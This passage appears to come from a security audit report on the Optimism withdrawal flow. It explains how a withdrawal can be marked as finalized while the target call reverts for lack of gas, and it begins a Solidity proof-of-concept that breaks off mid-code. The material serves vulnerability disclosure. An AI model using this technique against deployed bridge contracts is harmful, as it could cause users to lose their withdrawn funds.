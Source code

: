 The `PoC` contract shows how exactly the described scenario can happen (here it is the description of the logic of the `PoC` contract constructor):
- the first try to process the withdrawal transaction with `TO_USE_AS_SAFE_GAS_LIMIT` `gasLimit` reverts (which is checked in the `require(customBridge.stateMarker() == 0);` statement);
- during the such call of the `finalizeWithdrawalTransaction` function withdrawal transaction was marked as processed (which is enforced in the `require(optimismPortalSimplified.finalizedWithdrawals(Hashing.hashWithdrawal(tx)));` statement);
- in practice call of the `processCrossChainTransaction` function on the target contract should not fail (which is enforced by checking the `stateMarker` variable value after the "naive" call of this function with mentioned gas limit).

Please note, that for the call through the `OptimismPortalSimplified` contract, there is used `gasLimit` value with the additional overhead `ADDITIONAL_OVERHEAD_TO_COVER_EXTRA_EXPENSES = 3000`, so this is not just a "small error in gas calculations due to additional logic". Also, you can check the debug trace to make sure of it.

### PoC

```solidity=
pragma solidity 0.8.15;

contract CustomBridge {
    uint256 public stateMarker;

    uint256 constant GAS_TO_BE_USED_FOR_WITHDRAWALS = 3000000;
    function _withdrawToUsersCustomBridgeFunds(bytes calldata _withdrawalData) internal {
        uint256 g = gasleft();
        uint256 i = 0;
        while (g - gasleft() < GAS_TO_BE_USED_FOR_WITHDRAWALS){
            i++;
        }
    }

    OptimismPortalSimplified immutable optimismPortalSimplified;

    constructor(OptimismPortalSimplified _optimismPortalSimplified) {
        optimismPortalSimplified = _optimismPortalSimplified;
    }

    function processCrossChainTransaction(bytes calldata _withdrawalData, uint256 _stateMarker) external {
        _withdrawToUsersCustomBridgeFunds(_withdrawalData);

        stateMarker = _stateMarker;
    }
}

library SafeCall {
    function call(
        address _target,
        uint256 _gas,
        uint256 _value,
        bytes memory _calldata
    ) internal returns (bool) {
        bool _success;
        assembly {
            _success := call(
                _gas, // gas
                _target, // recipient
                _value, // ether value
                add(_calldata, 0x20), // inloc
                mload(_calldata), // inlen
                0, // outloc
                0 // outlen
```